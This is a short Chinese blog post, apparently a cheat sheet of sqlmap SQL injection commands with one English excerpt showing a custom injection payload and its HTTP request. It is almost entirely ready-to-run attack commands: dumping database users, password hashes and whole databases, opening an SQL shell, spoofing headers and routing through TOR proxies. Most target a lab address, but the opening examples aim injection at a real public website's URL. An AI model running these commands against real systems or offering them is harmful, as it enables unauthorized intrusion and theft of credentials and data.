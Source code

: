 title: sqlmap简单中文说明
id: 1330
categories:
  - 安全
date: 2014-06-12 23:47:40
tags:
---

整理：mickey

更新
svn checkout https://svn.sqlmap.org/sqlmap/trunk/sqlmap sqlmap-dev

sqlmap.py -u "http://www.islamichina.com/hotelinchina.asp?cityid=2&m=1" -v 1 --sql-shell //执行SQL语句

sqlmap.py -u "http://www.islamichina.com/hotelinchina.asp?cityid=2&m=1" -v 5 //更详细的信息

load options from a configuration INI file
sqlmap -c sqlmap.conf
<!--more-->
使用POST方法提交
sqlmap.py -u "http://192.168.1.121/sqlmap/oracle/post_int.php" --method POST --data "id=1"

使用COOKIES方式提交,cookie的值用;分割,可以使用TamperData来抓cookies
python sqlmap.py -u "http://192.168.1.121/sqlmap/mssql/cookie_int.php" --cookie "id=1" -v 1

使用referer欺骗
python sqlmap.py -u "http://192.168.1.121/sqlmap/pgsql/get_int.php?id=1" --referer "http://www.google.com" -v 3

使用自定义user-agent,或者使用随机使用自带的user-agents.txt
python sqlmap.py -u "http://192.168.1.121/sqlmap/oracle/get_int.php?id=1" --user-agent "Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 5.1)" -v 3

python sqlmap.py -u "http://192.168.1.121/sqlmap/mysql/get_int.php?id=1" -v 1 -a "./txt/user-agents.txt"

使用基本认证
python sqlmap.py -u "http://192.168.1.121/sqlmap/mysql/basic/get_int.php?id=1" --auth-type Basic --auth-cred "testuser:testpass" -v 3

使用Digest认证
python sqlmap.py -u "http://192.168.1.121/sqlmap/mysql/digest/get_int.php?id=1" --auth-type Digest --auth-cred "testuser:testpass" -v 3

使用代理,配合TOR
python sqlmap.py -u "http://192.168.1.121/sqlmap/pgsql/get_int.php?id=1" --proxy "http://192.168.1.47:3128"
python sqlmap.py -u "http://192.168.1.121/sqlmap/pgsql/get_int.php?id=1" --proxy "http://192.168.1.47:8118"

使用多线程猜解
python sqlmap.py -u "http://192.168.1.121/sqlmap/mysql/get_int.php?id=1" -v 1 --current-user --threads 3

绕过动态检测,直接指定有注入点的参数,可以使用,分割多个参数,指定user-agent注入
python sqlmap.py -u "http://192.168.1.121/sqlmap/pgsql/get_int.php?id=1" -v 1 -p "id
python sqlmap.py -u "http://192.168.1.121/sqlmap/pgsql/get_int.php?id=1&cat=2" -v 1 -p "cat,id"
python sqlmap.py -u "http://192.168.1.121/sqlmap/mysql/ua_str.php" -v 1 -p "user-agent" --user-agent "sqlmap/0.7rc1 (http://sqlmap.sourceforge.net)"

指定数据库,绕过SQLMAP的自动检测
python sqlmap.py -u "http://192.168.1.121/sqlmap/pgsql/get_int.php?id=1" -v 2 --dbms "PostgreSQL"

* MySQL
* Oracle
* PostgreSQL
* Microsoft SQL Server

指定操作系统,绕过SQLMAP自动检测
python sqlmap.py -u "http://192.168.1.121/sqlmap/pgsql/get_int.php?id=1" -v 2 --os "Windows"

* Linux
* Windows

自定义payload
Options: --prefix and --postfix

In some circumstances the vulnerable parameter is exploitable only if the user provides a postfix to be appended to the injection payload. Another scenario where these options come handy presents itself when the user already knows that query syntax and want to detect and exploit the SQL injection by directly providing a injection payload prefix and/or postfix.

Example on a MySQL 5.0.67 target on a page where the SQL query is: $query = "SELECT * FROM users WHERE id=('" . $_GET['id'] . "') LIMIT 0, 1";:

$ python sqlmap.py -u "http://192.168.1.121/sqlmap/mysql/get_str_brackets.php?id=1" -v 3 -p "id" --prefix "'" --postfix "AND 'test'='test"

[...]
[hh:mm:16] [INFO] testing sql injection on GET parameter 'id' with 0 parenthesis
[hh:mm:16] [INFO] testing custom injection on GET parameter 'id'
[hh:mm:16] [TRAFFIC OUT] HTTP request:
GET /sqlmap/mysql/get_str_brackets.php?id=1%27%29%20AND%207433=7433%20AND%20
%28%27test%27=%27test HTTP/1.1
Accept-charset: ISO-8859-15,utf-8;q=0.7,*;q=0.7
Host: 192.168.1.121:80
Accept-language: en-us,en;q=0.5
Accept: text/xml,application/xml,application/xhtml+xml,text/html;q=0.9,text/plain;q=0.8,
image/png,*/*;q=0.5
User-agent: sqlmap/0.7rc1 (http://sqlmap.sourceforge.net)
Connection: close
[...]
[hh:mm:17] [INFO] GET parameter 'id' is custom injectable
[...]

As you can see, the injection payload for testing for custom injection is:

id=1%27%29%20AND%207433=7433%20AND%20%28%27test%27=%27test

which URL decoded is:

id=1') AND 7433=7433 AND ('test'='test

and makes the query syntatically correct to the page query:

SELECT * FROM users WHERE id=('1') AND 7433=7433 AND ('test'='test') LIMIT 0, 1

In this simple example, sqlmap could detect the SQL injection and exploit it without need to provide a custom injection payload, but sometimes in the real world application it is necessary to provide it.

页面比较
python sqlmap.py -u "http://192.168.1.121/sqlmap/mysql/get_int_refresh.php?id=1" --string "luther" -v 1
python sqlmap.py -u "http://192.168.1.121/sqlmap/mysql/get_int_refresh.php?id=1" --regexp "<td>lu[\w][\w]er" -v

排除网站的内容
python sqlmap.py -u "http://192.168.1.121/sqlmap/mysql/get_int_refresh.php?id=1" --excl-reg "Dynamic content: ([\d]+)"

多语句测试，php内嵌函数mysql_query(),不支持多语句
python sqlmap.py -u "http://192.168.1.121/sqlmap/mysql/get_int.php?id=1" --stacked-test -v 1

union注入测试
python sqlmap.py -u "http://192.168.1.121/sqlmap/oracle/get_int.php?id=1" --union-test -v 1

unionz注入配合orderby
python sqlmap.py -u "http://192.168.1.121/sqlmap/pgsql/get_str.php?id=1" --union-test --union-tech orderby -v 1

python sqlmap.py -u "http://192.168.1.121/sqlmap/mssql/get_int.php?id=1" -v 1 --union-use --banner
python sqlmap.py -u "http://192.168.1.121/sqlmap/mysql/get_int.php?id=1" -v 5 --union-use --current-user
python sqlmap.py -u "http://192.168.1.121/sqlmap/mysql/get_int_partialunion.php?id=1" -v 1 --union-use --dbs

fingerprint
python sqlmap.py -u "http://192.168.1.121/sqlmap/mssql/get_int.php?id=1" -v 1 -f
python sqlmap.py -u "http://192.168.123.36/sqlmap/get_str.asp?name=luther" -v 1 -f -b

判断当前用户是否是dba
python sqlmap.py -u "http://192.168.1.121/sqlmap/pgsql/get_int.php?id=1" --is-dba -v 1

列举数据库用户
python sqlmap.py -u "http://192.168.1.121/sqlmap/pgsql/get_int.php?id=1" --users -v 0

列举数据库用户密码
python sqlmap.py -u "http://192.168.1.121/sqlmap/mysql/get_int.php?id=1" --passwords -v 0
python sqlmap.py -u "http://192.168.1.121/sqlmap/mssql/get_int.php?id=1" --passwords -U sa -v 0

查看用户权限
python sqlmap.py -u "http://192.168.1.121/sqlmap/oracle/get_int.php?id=1" --privileges -v 0
python sqlmap.py -u "http://192.168.1.121/sqlmap/pgsql/get_int.php?id=1" --privileges -U postgres -v 0

列数据库
python sqlmap.py -u "http://192.168.1.121/sqlmap/mssql/get_int.php?id=1" --dbs -v 0

列出指定数据库指定表的列名
python sqlmap.py -u "http://192.168.1.121/sqlmap/mysql/get_int.php?id=1" --columns -T users -D test -v 1

列出指定数据库的指定表的指定列的内容
python sqlmap.py -u "http://192.168.1.121/sqlmap/mssql/get_int.php?id=1" --dump -T users -D master -C surname -v 0

指定列的范围从2－4
python sqlmap.py -u "http://192.168.1.121/sqlmap/mysql/get_int.php?id=1" --dump -T users -D test --start 2 --stop 4 -v 0

导出所有数据库，所有表的内容
python sqlmap.py -u "http://192.168.1.121/sqlmap/mysql/get_int.php?id=1" --dump-all -v 0

只列出用户自己新建的数据库和表的内容
python sqlmap.py -u "http://192.168.1.121/sqlmap/mssql/get_int.php?id=1" --dump-all --exclude-sysdbs -v 0

sql query
python sqlmap.py -u "http://192.168.1.121/sqlmap/pgsql/get_int.php?id=1" --sql-query "SELECT usename FROM pg_user" -v 0
python sqlmap.py -u "http://192.168.1.121/sqlmap/mysql/get_int.php?id=1" --sql-query "SELECT host, password FROM mysql.user LIMIT 1, 3" -v 1

SELECT usename, passwd FROM pg_shadow ORDER BY usename

保存和恢复会话
python sqlmap.py -u "http://192.168.1.121/sqlmap/pgsql/get_int.php?id=1" -b -v 1 -s "sqlmap.log"

保存选项到INC配置文件
python sqlmap.py -u "http://192.168.1.121/sqlmap/pgsql/get_int.php?id=1" -b -v 1 --save
